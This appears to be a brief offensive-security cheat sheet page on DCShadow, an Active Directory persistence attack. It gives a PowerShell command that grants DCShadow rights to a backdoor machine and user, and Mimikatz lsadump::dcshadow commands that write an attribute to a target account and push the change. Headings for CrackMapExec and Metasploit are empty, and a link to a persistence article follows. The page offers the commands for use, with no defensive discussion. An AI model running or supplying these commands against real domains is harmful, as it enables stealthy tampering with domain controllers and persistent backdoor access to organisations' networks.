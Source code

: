 # 🤖 DCShadow

{% code overflow="wrap" %}
```powershell
Set-DCShadowPermissions -FakeDC BackdoorMachine -SamAccountName TargetUser -Username BackdoorUser -Verbose
```
{% endcode %}

<figure><img src="../.gitbook/assets/DC Shadow.png" alt="DCShadow"><figcaption><p>DCShadow</p></figcaption></figure>

### DCShadow using MimiKatz

{% code overflow="wrap" %}
```
lsadump::dcshadow /object:TargetUser /attribute:servicePrincipalName /value:"SuperHacker/ServicePrincipalThingey"
```
{% endcode %}

```
lsadump::dcshadow /push
```

### DCShadow using CrackMapExec

### DCShadow using Metasploit

{% embed url="https://stealthbits.com/blog/creating-persistence-dcshadow/" %}
